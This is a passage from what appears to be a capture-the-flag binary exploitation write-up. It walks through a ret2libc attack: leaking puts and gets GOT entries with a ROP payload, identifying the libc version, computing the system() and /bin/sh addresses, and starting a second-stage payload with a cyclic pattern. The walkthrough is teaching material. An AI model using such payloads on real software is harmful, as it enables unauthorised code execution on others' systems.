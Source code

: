 Let’s send this payload and wait for a leak 

![Aha! A garbage data.](https://cdn-images-1.medium.com/max/800/1*gjb5GD7YlD8df4Q8fi046A.png)

Success! We got a leak. Although it seems that it is just a garbage data, there is just no ascii character representation for the leaked bytes. Let’s convert the leaked data in a more readable form.

![puts@libc leak ](https://cdn-images-1.medium.com/max/800/1*eWS0SyTqqQ3INZHohjyfew.png)

We got a leak for puts@libc which is `0xf7e277e0.` Using  this leaked address, we can identify the version of `libc` by using [https://libc.blukat.me/](https://libc.blukat.me/).

> Quick note: The last 3 values of a libc address is always constant.

![Oh, multiple libc versions :(](https://cdn-images-1.medium.com/max/800/1*_74xDUsYu5btYpo6jwIgnQ.png)

The database gave 3 different libc versions. Let’s leak another address, and query two addresses to get better results.

Let’s leak `gets@libc` using the same method. Just replace the `puts@got` from the previous payload with `gets@got`.

![0x80497ac is the address of gets@got](https://cdn-images-1.medium.com/max/800/1*KCMiOOEuw1g3nTpheW6aaQ.png)

```
payload = [140 bytes buffer] + [`0x8048340`] + [`0x0804847d`] + [`0x80497ac`]
```

![gets@got leak ](https://cdn-images-1.medium.com/max/800/1*LMxGvel475kEXDX4mF3NFw.png)

Let’s go back to libc database search and use the 2 address that we leaked.

![](https://cdn-images-1.medium.com/max/800/1*pHeFVdfX8qOcHMCMN8QrxQ.png)

We got a decent libc version. Let’s use this libc to compute the libc base address, and the addresses of system() and /bin/sh.

Here is how we compute the addresses we need:

```
libc_base = puts_leak - puts_offset  
system_address = libc_base + system_offset  
bin_sh_address = libc_base + bin_sh_offset
```

We already got the values we need, let’s now craft our stage 2 payload.

Since the program loops back to main, let’s recompute the offset needed to overwrite the saved return address.

Generate pattern using msf-pattern_create.rb

```
root@kali:pwn2# msf-pattern_create -l 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```
